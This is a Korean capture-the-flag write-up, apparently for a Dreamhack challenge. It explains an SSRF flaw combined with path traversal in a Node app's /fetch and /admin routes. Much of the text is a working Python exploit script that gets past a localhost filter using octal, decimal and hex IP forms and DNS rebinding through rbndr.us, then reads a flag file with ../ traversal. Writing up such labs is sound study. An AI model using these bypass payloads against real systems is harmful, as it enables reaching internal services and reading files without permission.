



## Explain


해당 문제는 SSRF 취약점을 이용해서, 외부에서 접근 불가능한 내부망인 3000 서비스에 접근하고, 필터링 우회 기법을 통해서 플래그를 얻어내는 문제다. 처음 폴더 안을 들어가면 핵심적으로 app.js를 확인해봐야 한다.


app.js의 /admin 부분을 확인해보면 사용자가 입력한 `log` 파라미터를 그대로 `path.join`에 넣어 `../flag`와 같은 상위 경로 접근을 허용하는 것을 알 수 있다.


또한 /fetch 부분에서는 URL의 Host를 문자열로 파싱하거나(`extractHost`), DNS를 조회한 시점과 실제 요청하는 시점을 이용하는 TOCTOU를 이용한 공격에 취약했다.

## Payload
```python
import requests
import time
import sys

HOST = "host8.dreamhack.games"
PORT = 9440
BASE_URL = f"http://{HOST}:{PORT}"
INTERNAL_PORT = 3000

print(f"[*] Target: {BASE_URL}")
print("[*] Starting Exploit Sequence...")

def try_exploit(name, payload_url):
    target = f"{BASE_URL}/fetch"
    params = {"url": payload_url}
    try:
        res = requests.get(target, params=params, timeout=3)
        if res.status_code == 200:
            content = res.text
            if "permission denied" not in content and "Missing" not in content:

                return True, content

            elif "permission denied" in content:

                return False, "Permission Denied (IP Check Failed)"

        return False, f"Status {res.status_code}"

    except requests.exceptions.ReadTimeout:

        return False, "Timeout"

    except Exception as e:

        return False, str(e)

filenames = ["flag", "flag.txt", "../flag", "../flag.txt"]

payloads = [
    # [Method 1] Octal IP (0177.0.0.1 -> 127.0.0.1) - 가장 유력
    f"http://0177.0.0.1:{INTERNAL_PORT}/admin?log=../{{file}}",
    # [Method 2] Decimal IP (2130706433 -> 127.0.0.1)
    f"http://2130706433:{INTERNAL_PORT}/admin?log=../{{file}}",
    # [Method 3] Hex IP (0x7f000001 -> 127.0.0.1)
    f"http://0x7f000001:{INTERNAL_PORT}/admin?log=../{{file}}",
    # [Method 4] DNS Rebinding (확률 게임)
    f"http://7f000001.08080808.rbndr.us:{INTERNAL_PORT}/admin?log=../{{file}}"

]

for filename in filenames:
    print(f"\n[?] Targeting file: {filename}")

    for payload_template in payloads:
        target_url = payload_template.format(file=filename)
        print(f"  -> Trying: {target_url[:60]}... ", end="")
        attempts = 10 if "rbndr.us" in target_url else 1

        for i in range(attempts):
            success, result = try_exploit("Attack", target_url)
            if success:
                print(f"\n\n[★] SUCCESSS! Flag Found!")
                print("=" * 50)
                print(result)
                print("=" * 50)
                sys.exit(0) # 플래그 찾으면 종료
            if "rbndr.us" in target_url and i < attempts - 1:
                print(".", end="", flush=True) 
                time.sleep(0.5)
        print(f" [Fail: {result}]")
        
print("\n[-] All attempts failed. Try increasing attempts or checking the server status.")
```

결론적으로 payload는 SSRF(Server-Side Request Forgery) 취약점을 악용하여 외부에서 직접 접근할 수 없는 내부망 서비스(포트 3000)**를 공격하는 스크립트로 구성했다.
서버의 `127.0.0.1` 문자열 필터링을 무력화하기 위해 8진수 `0177.0.0.1` 같은 IP 난독화와 및 DNS Rebinding 기법을 사용했으며, 동시에 `/admin` 페이지의 파라미터에 Path Traversal(`../`) 공격을 결합하여 로그 디렉터리를 벗어나 시스템 내부의 플래그 파일을 성공적으로 읽어내도록 설계되었다.

```python
payloads = [
    # [Method 1] Octal IP (0177.0.0.1 -> 127.0.0.1) - 가장 유력
    f"http://0177.0.0.1:{INTERNAL_PORT}/admin?log=../{{file}}",
    # [Method 2] Decimal IP (2130706433 -> 127.0.0.1)
    f"http://2130706433:{INTERNAL_PORT}/admin?log=../{{file}}",
    # [Method 3] Hex IP (0x7f000001 -> 127.0.0.1)
    f"http://0x7f000001:{INTERNAL_PORT}/admin?log=../{{file}}",
    # [Method 4] DNS Rebinding (확률 게임)
    f"http://7f000001.08080808.rbndr.us:{INTERNAL_PORT}/admin?log=../{{file}}"
]
```
flag를 잘 구하기 위해 우회할 수 있는 IP Obfuscation 기법을 4가지정도 준비했다. 각각 **Octal IP (8진수):** `0177.0.0.1`, **Decimal IP (10진수):** `2130706433`, **Hex IP (16진수):** `0x7f000001`, **DNS Rebinding:** `rbndr.us`를 이용했다.


## Solved


